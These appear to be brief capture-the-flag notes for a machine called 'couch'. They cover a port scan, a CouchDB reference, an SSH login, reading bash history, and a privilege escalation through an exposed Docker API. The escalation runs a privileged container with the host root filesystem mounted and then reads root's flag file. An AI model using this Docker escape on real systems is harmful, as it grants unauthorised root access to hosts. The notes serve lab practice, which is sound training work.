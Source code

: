 ```yaml
---
date: 2024-06-19
author: mrashco
title: couch
tags: ["", ""]
categories: 
series:
---
```

`rustscan`

Research [^](https://guide.couchdb.org/draft/tour.html)

`ssh user:password`

- `cat .bash_history`
- `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`
- `cat /mnt/root/root.txt`
